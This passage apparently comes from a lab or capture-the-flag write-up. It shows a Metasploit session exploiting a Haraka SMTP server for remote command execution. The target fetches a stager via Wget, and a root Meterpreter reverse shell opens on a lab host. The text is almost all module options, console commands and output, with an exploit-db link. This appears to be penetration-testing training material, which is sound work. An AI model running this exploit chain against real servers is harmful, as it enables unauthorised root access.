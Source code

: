```
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                              no        The URI to use for this exploit (default is random)
   email_from  foo@example.com          yes       Address to send from
   email_to    root@attackdefense.test  yes       Email to send to, must be accepted by the server
   rhost       192.58.156.3             yes       Target server
   rport       25                       yes       Target server port


Payload options (linux/x64/meterpreter_reverse_http):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8080             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   linux x64


msf5 exploit(linux/smtp/haraka) > set LHOST eth1
LHOST => 192.58.156.2
```

```
msf5 exploit(linux/smtp/haraka) > run

[*] Started HTTP reverse handler on http://192.58.156.2:8080
[*] Exploiting...
[*] Using URL: http://0.0.0.0:9898/Bb0IKR
[*] Local IP: http://10.1.0.9:9898/Bb0IKR
[*] Sending mail to target server...[*] Client 192.58.156.3 (Wget/1.17.1 (linux-gnu)) requested /Bb0IKR
[*] Sending payload to 192.58.156.3 (Wget/1.17.1 (linux-gnu))
[*] http://192.58.156.2:8080 handling request from 192.58.156.3; (UUID: 8x0uh6dc) Redirecting stageless connection from /b0mPpDj0kMkezhjMfRBK-QNBNU9ewCJOCf5UEoh5pheMyNja4_0QoWFmpocWIC_S9U
XIRs-xTMwjS-KYEOcUA31HzfkS18tpYiAsd1xgHz4kD_G1eAPTkDfNC with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://192.58.156.2:8080 handling request from 192.58.156.3; (UUID: 8x0uh6dc) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.58.156.2:8080 -> 192.58.156.3:41222) at 2023-02-04 12:48:55 +0000
[+] Triggered bug in target server (plugin timeout)
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.58.156.3
OS           : Ubuntu 16.04 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```

[Haraka < 2.8.9 - Remote Command Execution](https://www.exploit-db.com/exploits/41162)
